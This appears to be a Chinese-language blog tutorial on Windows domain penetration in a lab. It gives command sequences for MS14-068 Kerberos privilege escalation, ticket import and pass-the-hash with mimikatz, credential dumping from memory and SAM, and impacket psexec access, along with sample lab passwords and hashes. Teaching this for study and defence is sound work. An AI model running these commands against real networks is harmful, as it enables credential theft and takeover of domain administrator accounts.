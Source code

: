 ```yaml
---
title: 域渗透入门（二）
categories:
- WindowsDomain
tags:
- WindowsDomain
---
```


## 参考资料
- 乌云文章：《使用Hash直接登录Windows》
- [维基百科Pass_the_hash的定义](https://en.wikipedia.org/wiki/Pass_the_hash)
- [metasploit mimikatz](https://www.fujieace.com/metasploit/mimikatz.html)
- [Kerberos协议探索系列之票据篇：MS14068漏洞和Kerberos票据的利用说明](https://www.anquanke.com/post/id/172900#h2-0)


## 录制的视频教程

 [域渗透实践篇（二）](https://www.bilibili.com/video/BV1Qz411B7BQ)
1. 域信息搜集
2. ms14-068 域普通用户提权到域管理员

 [域渗透实践篇（三）](https://www.acfun.cn/v/ac15162313)
1. pass the hash票据传递攻击

## Kerberos域用户提权漏洞ms14-068

### 准备域内普通用户权限（以及DC未打补丁）

1. 域控添加一个user用户

2. 192.168.1.3 计算机添加user用户
```
net user user admin!@#45      #添加一个用户user，添加密码
---
注销管理员用户，登陆用户user
用户名：SRV-WEB-KIT\user
密码：admin!@#45
```
3. 测试域普通用户与域管理员区别

4. 生成高权限票据
```
python ms14-068.py -u whale@0day.org -s  S-1-5-21-1812960810-2335050734-3517558805-1178 -d 192.168.1.131 -p qwe123$%
需要普通域用户名称
普通域用户sid
普通域用户明文密码或者hash
```
5. mimikatz导入hash
```
mimikatz.exe
kerberos::list			#列出内存中的票据信息
kerberos::purge         #清除内存中的票据信息
kerberos::ptc TGT_whale@rootkit.org.ccache(生成的高权限票据全名)	#导入高权限票据到内存，获得域管理员权限
```
## 票据传递

```
mimikatz_command -f sekurlsa::logonPasswords
导出登陆的密码

python /usr/share/doc/python-impacket/examples/psexec.py Administrator@192.168.1.2 cmd.exe

使用密码admin!@#45，成功连接

使用ntlm hash，ccef208c6485269c20db2cad21734fe7，连接失败

有两种可能 
1. 工具psexec.py，只能使用明文密码连接
2. hash出错，不是ccef208c6485269c20db2cad21734fe7, 而是其他hash
3. windows 2012 R2不支持pass the hash
```
### NT hash、LM hash、NTLM hash
LM hash的全名LAN Manager Hash，容易被破解。因此windows visa与winSever2008之后的版本默认禁用了LM hash。
NTLM hash取代了LM hash，安全性更高，从windowsSever2003开始，默认使用NTLM hash。

所说的NT hash就是NTLM hash，有些文档这么称呼，我还以为是两种不同的加密方式，只是称呼不同而已。

### mimikatz提权ntlm hash

```
mimikatz.exe
log
lsadump::sam /sam:sam.hiv /system:sys.hiv
```
### 查看DC机器与Web机器的hash是否一致

```
修改web机器密码：net user administrator qwe123$%
保持这个密码与DC一致

DC (192.168.1.131): 4b211aa32bcd009f4d46f52438fe433d
WEB(192.168.1.130)：4b211aa32bcd009f4d46f52438fe433d

privilege::debug
sekurlsa::pth /user:administrator /domain:0day.org /ntlm:4b211aa32bcd009f4d46f52438fe433d
```
---

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
一行命令，将结果保存到log.txt
```
---

```
sekurlsa::logonpasswords
dir \\OWA2010SP3\C$
```
